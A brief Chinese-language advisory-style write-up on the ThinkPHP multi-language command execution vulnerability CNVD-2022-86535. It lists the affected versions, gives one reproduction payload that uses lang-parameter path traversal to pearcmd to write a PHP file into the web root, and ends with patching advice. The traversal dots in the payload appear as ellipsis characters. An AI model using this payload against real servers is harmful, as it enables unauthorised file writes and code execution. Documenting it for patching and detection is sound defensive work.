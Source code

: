 # 

# ThinkPHP 命令执行漏洞 CNVD-2022-86535

## 漏洞描述

该漏洞是由于 Thinkphp 开启了多语言功能，并且对参数 lang 传参过滤不严谨，导致攻击者可利用该漏洞执行命令。

## 漏洞影响

```
ThinkPHP >=V6.0.1，<=V6.0.13
ThinkPHP >=V5.0.X，<=V5.1.X
```

## 漏洞复现

payload：

```
/index?lang=…/…/…/…/…/…/…/…/usr/local/lib/php/pearcmd&+config-create+/&/+/var/www/html/test.php
```

## 漏洞修复

官方已发布漏洞补丁及修复版本，可以评估业务是否受影响后，酌情升级至安全版本。

如不需要多语言功能，请及时关闭此功能，可参考官方文档：

- https://www.kancloud.cn/manual/thinkphp6_0/1037637
- https://static.kancloud.cn/manual/thinkphp5/118132
